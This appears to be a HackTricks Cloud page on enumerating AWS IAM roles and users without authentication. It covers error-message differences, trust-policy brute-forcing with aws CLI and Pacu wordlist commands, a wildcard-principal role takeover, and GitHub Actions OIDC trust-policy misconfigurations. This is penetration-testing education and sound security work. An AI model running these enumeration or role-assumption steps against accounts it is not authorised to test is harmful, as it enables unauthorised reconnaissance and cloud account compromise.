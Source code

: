 # AWS - IAM & STS Unauthenticated Enum

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## Enumerate Roles & Usernames in an account

### ~~Assume Role Brute-Force~~

{% hint style="danger" %}
**This technique doesn't work** anymore as if the role exists or not you always get this error:

`An error occurred (AccessDenied) when calling the AssumeRole operation: User: arn:aws:iam::947247140022:user/testenv is not authorized to perform: sts:AssumeRole on resource: arn:aws:iam::429217632764:role/account-balanceasdas`

You can **test this running**:

`aws sts assume-role --role-arn arn:aws:iam::412345678909:role/superadmin --role-session-name s3-access-example`
{% endhint %}

Attempting to **assume a role without the necessary permissions** triggers an AWS error message. For instance, if unauthorized, AWS might return:

```ruby
An error occurred (AccessDenied) when calling the AssumeRole operation: User: arn:aws:iam::012345678901:user/MyUser is not authorized to perform: sts:AssumeRole on resource: arn:aws:iam::111111111111:role/aws-service-role/rds.amazonaws.com/AWSServiceRoleForRDS
```

This message confirms the role's existence but indicates that its assume role policy does not permit your assumption. In contrast, trying to **assume a non-existent role leads to a different error**:

```less
An error occurred (AccessDenied) when calling the AssumeRole operation: Not authorized to perform sts:AssumeRole
```

Interestingly, this method of **discerning between existing and non-existing roles** is applicable even across different AWS accounts. With a valid AWS account ID and a targeted wordlist, one can enumerate the roles present in the account without facing any inherent limitations.

You can use this [script to enumerate potential principals](https://github.com/RhinoSecurityLabs/Security-Research/tree/master/tools/aws-pentest-tools/assume\_role\_enum) abusing this issue.

### Trust Policies: Brute-Force Cross Account roles and users

Configuring or updating an **IAM role's trust policy involves defining which AWS resources or services are permitted to assume that role** and obtain temporary credentials. If the specified resource in the policy **exists**, the trust policy saves **successfully**. However, if the resource **does not exist**, an **error is generated**, indicating that an invalid principal was provided.

{% hint style="warning" %}
Note that in that resource you could specify a cross account role or user:

* `arn:aws:iam::acc_id:role/role_name`
* `arn:aws:iam::acc_id:user/user_name`
{% endhint %}

This is a policy example:

```json
{
  "Version":"2012-10-17",
  "Statement":[
    {
      "Effect":"Allow",
      "Principal":
      {
        "AWS":"arn:aws:iam::216825089941:role\/Test"
      },
    "Action":"sts:AssumeRole"
    }
  ]
}
```

#### GUI

That is the **error** you will find if you uses a **role that doesn't exist**. If the role **exist**, the policy will be **saved** without any errors. (The error is for update, but it also works when creating)

![](<../../../.gitbook/assets/image (153).png>)

#### CLI

```bash
### You could also use: aws iam update-assume-role-policy
# When it works
aws iam create-role --role-name Test-Role --assume-role-policy-document file://a.json
{
    "Role": {
        "Path": "/",
        "RoleName": "Test-Role",
        "RoleId": "AROA5ZDCUJS3DVEIYOB73",
        "Arn": "arn:aws:iam::947247140022:role/Test-Role",
        "CreateDate": "2022-05-03T20:50:04Z",
        "AssumeRolePolicyDocument": {
            "Version": "2012-10-17",
            "Statement": [
                {
                    "Effect": "Allow",
                    "Principal": {
                        "AWS": "arn:aws:iam::316584767888:role/account-balance"
                    },
                    "Action": [
                        "sts:AssumeRole"
                    ]
                }
            ]
        }
    }
}

# When it doesn't work
aws iam create-role --role-name Test-Role2 --assume-role-policy-document file://a.json
An error occurred (MalformedPolicyDocument) when calling the CreateRole operation: Invalid principal in policy: "AWS":"arn:aws:iam::316584767888:role/account-balanceefd23f2"
```

You can automate this process with [https://github.com/carlospolop/aws\_tools](https://github.com/carlospolop/aws\_tools)

* `bash unauth_iam.sh -t user -i 316584767888 -r TestRole -w ./unauth_wordlist.txt`

Our using [Pacu](https://github.com/RhinoSecurityLabs/pacu):

* `run iam__enum_users --role-name admin --account-id 229736458923 --word-list /tmp/names.txt`
* `run iam__enum_roles --role-name admin --account-id 229736458923 --word-list /tmp/names.txt`
* The `admin` role used in the example is a **role in your account to by impersonated** by pacu to create the policies it needs to create for the enumeration

### Privesc

In the case the role was bad configured an allows anyone to assume it:

```json
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Effect": "Allow",
            "Principal": {
                "AWS": "*"
            },
            "Action": "sts:AssumeRole"
        }
    ]
}
```

The attacker could just assume it.

## Third Party OIDC Federation

Imagine that you manage to read a **Github Actions workflow** that is accessing a **role** inside **AWS**.\
This trust might give access to a role with the following **trust policy**:

```json
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Effect": "Allow",
            "Principal": {
                "Federated": "arn:aws:iam::<acc_id>:oidc-provider/token.actions.githubusercontent.com"
            },
            "Action": "sts:AssumeRoleWithWebIdentity",
            "Condition": {
                "StringEquals": {
                    "token.actions.githubusercontent.com:aud": "sts.amazonaws.com"
                }
            }
        }
    ]
}
```

This trust policy might be correct, but the **lack of more conditions** should make you distrust it.\
This is because the previous role can be assumed by **ANYONE from Github Actions**! You should specify in the conditions also other things such as org name, repo name, env, brach...

Another potential misconfiguration is to **add a condition** like the following:

```json
"StringLike": {
    "token.actions.githubusercontent.com:sub": "repo:org_name*:*"
}
```

Note that **wildcard** (\*) before the **colon** (:). You can create an org such as **org\_name1** and **assume the role** from a Github Action.

## References

* [https://www.youtube.com/watch?v=8ZXRw4Ry3mQ](https://www.youtube.com/watch?v=8ZXRw4Ry3mQ)
* [https://rhinosecuritylabs.com/aws/assume-worst-aws-assume-role-enumeration/](https://rhinosecuritylabs.com/aws/assume-worst-aws-assume-role-enumeration/)

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
